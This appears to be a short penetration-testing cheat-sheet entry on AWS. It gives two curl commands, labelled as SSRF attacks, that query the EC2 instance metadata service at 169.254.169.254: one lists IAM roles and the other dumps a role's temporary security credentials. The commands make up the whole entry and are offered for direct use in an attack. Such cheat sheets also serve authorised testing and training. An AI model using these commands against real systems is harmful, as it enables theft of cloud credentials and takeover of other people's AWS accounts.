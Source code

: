 # AWS

% aws

## SSRF in EC2 - List roles
#platform/linux #target/remote #protocol/http #port/80 #cat/RECON
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

## SSRF in EC2 - Dump roles
#platform/linux #target/remote #protocol/http #port/80 #cat/RECON
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```


